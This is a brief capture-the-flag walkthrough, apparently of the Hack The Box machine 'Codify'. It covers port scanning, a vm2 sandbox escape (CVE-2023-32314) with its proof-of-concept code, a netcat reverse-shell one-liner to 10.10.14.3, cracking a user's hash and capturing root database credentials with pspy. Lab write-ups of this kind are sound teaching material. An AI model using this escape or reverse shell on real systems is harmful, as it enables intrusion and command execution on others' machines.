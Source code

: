 Started with a nmap scan
```
22 OpenSSH 8.2p1
80 Apache httpd 2.4.52
3000 Node.js
```
There is a domain linked to the webservice `codify.htb` its a webapp that  is running node,js code for us and in the about page says it uses a `vm2` package and its running version `3.9.16` which is vulnerable to `CVE-2023-32314` and here is a poc for reading the filesystem 
```
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ls -la").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> whoami
```
using this payload we can get a call bac `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.3 9001 >/tmp/f` and now we are the `svc` user looking in the `tickets.db` file we found a hash for the user Joshua `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/....................../p/Zw2` which is a user on the system and it cracked to `.........` and now we can SSH into the host and there is a script we can run as root and to bypass the login for the script we use `*` now we can use `pspy` to catch the root creds for mysql database `............` and now we can read the root flag 
